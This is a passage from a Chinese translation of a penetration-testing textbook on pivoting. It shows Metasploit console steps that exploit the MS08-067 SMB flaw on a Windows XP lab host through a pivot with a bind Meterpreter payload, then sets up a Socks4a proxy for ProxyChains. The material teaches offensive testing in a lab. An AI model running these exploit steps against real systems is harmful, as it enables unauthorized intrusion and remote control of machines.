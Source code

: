```
[*] 172.16.85.190:135 - TCP OPEN
[*] 172.16.85.190:180 - TCP OPEN
--*snip*--
```

像往常一样为辅助模块设置 `RHOSTS` 选项。默认情况下，Metasploit 扫描 1-10000 端口 ❶，不过你可以根据需要更改此选项。

尽管 Metasploit 的端口扫描器没有 Nmap 强大，但我们至少可以看到 SMB 端口是开放的。从这里，我们可以运行 *auxiliary/scanner/smb/smb_version* 模块，然后使用 `check` 函数与 *windows/smb/ms08_067_netapi* 模块一起，带领我们通过跳板利用 MS08-067 漏洞攻击 Windows XP 目标。

### 通过跳板运行利用代码

由于我们的 Windows XP 和 Kali 系统位于不同的网络上，反向有效载荷对我们的利用无法奏效，因为 Windows XP 目标无法将流量路由回 192.168.20.9。（当然，如果我们的 Kali 系统位于互联网，且我们攻击的内部网络能够路由到互联网，那就不是这种情况了。然而，在这里我们的主机仅网络无法路由到桥接网络。）因此，我们将使用 *bind 有效载荷*。Metasploit 的 bind 处理器能够轻松通过我们设置的跳板进行路由。*windows/meterpreter/bind_tcp* 有效载荷将如示例 13-30 所示工作。

示例 13-30. 通过跳板进行利用

```
msf exploit(handler) > **use windows/smb/ms08_067_netapi**
msf exploit(ms08_067_netapi) > **set RHOST 172.16.85.190**
RHOST => 172.16.85.190
msf exploit(ms08_067_netapi) > **set payload windows/meterpreter/bind_tcp**
payload => windows/meterpreter/bind_tcp
msf exploit(ms08_067_netapi) > **exploit**
```

我们又进行了一次会话，这次是通过跳板进行的。

### Socks4a 和 ProxyChains

通过 Metasploit 进行跳板操作很好，但我们只能使用 Metasploit 模块。或许有办法通过 Metasploit 的跳板代理其他工具？事实上，确实有方法：使用 ProxyChains 工具（它将流量重定向到代理服务器），通过 Metasploit 将我们从其他 Kali 工具发送的流量进行代理。

但首先，我们需要在 Metasploit 中设置一个代理服务器。就像我们在本章前面使用的 SMB 服务器模块来捕获 NETLM 和 NETNTLM 哈希一样，Metasploit 也有一个 Socks4a 代理服务器模块 (*auxiliary/server/socks4a*)。示例 13-31 展示了如何设置代理服务器。

示例 13-31. 在 Metasploit 中设置 Socks4a 代理服务器

```
msf > **use auxiliary/server/socks4a**
msf auxiliary(socks4a) > **show options**

Module options (auxiliary/server/socks4a):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.

msf auxiliary(socks4a) > **exploit**
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
```

保留选项为默认设置，但请注意，服务器将监听 1080 端口。
